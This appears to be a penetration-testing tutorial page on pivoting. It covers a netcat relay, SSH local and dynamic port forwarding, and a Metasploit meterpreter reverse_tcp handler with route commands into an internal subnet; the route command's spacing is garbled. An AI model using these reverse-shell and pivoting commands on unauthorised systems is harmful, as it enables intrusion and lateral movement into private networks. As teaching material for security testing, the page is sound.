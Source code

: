 # Pivoting

The technique of using one compromised machine to access another is called pivoting.

### Netcat Relay

> `$mknod backpipe p`
>
> `$nc –l –p 80 0<backpipe | nc 192.168.128.128 80 1>backpipe`

![](/assets/netcat_relay.png)

### SSH Local Port Forwarding

SSH local port forwarding is set up by the command below:

> `$ ssh –L port:destination_host:destination_port username@pivot_host`

`-L` indicates to use local port forwarding

![](/assets/ssh_local.png)

### SSH Dynamic Port Forwarding

The syntax is as below:

> `ssh –D address:port –f –N username@pivot_host`

`-D` indicates to use dynamic port forwarding, `address` is local machine \(127.0.0.1\)

An example is shown below:

> `# ssh -D 127.0.0.1:9150 -f -N user@192.168.112.132`
>
> `user@192.168.112.132's password:`

![](/assets/ssh_dynamic_port_fwd.png)

_ **SSH dynamic port forwarding can access multiple systems on different ports.**_

##### Pivot with Metasploit and Meterpreter Sessions

**Step 1** Start the multi/handler exploit

> `msf > use exploit/multi/handler`
>
> `msf exploit(handler) > set payload linux/x86/meterpreter/reverse_tcp`
>
> `payload => linux/x86/meterpreter/reverse_tcp`
>
> `msf exploit(handler) > set LHOST 192.168.112.132`
>
> `LHOST => 192.168.112.132`
>
> `msf exploit(handler) > set LPORT 2222`
>
> `LPORT => 2222`
>
> `msf exploit(handler) > run`

**Step 2** Run the executable on the compromised host and establish a Meterpreter session

**Step 3** Set up pivot by the metasploit route command

> `msf exploit(handler) > route add192.168.128.0255.255.255.0 1`
>
> `[*] Route added`
>
> `msf auxiliary(tcp) > route print`

**Step 4** Now metasploit modules can pivot through the compromised host and target  
 systems on the internal network \(192.168.128.0/24\).

### Pivoting Technique Summary

##### ![](/assets/pivot_summary.png)

### Interaction Between Web Application Penetration Testing Tools and pivoting

### ![](/assets/web_app_tool_pivot.png)



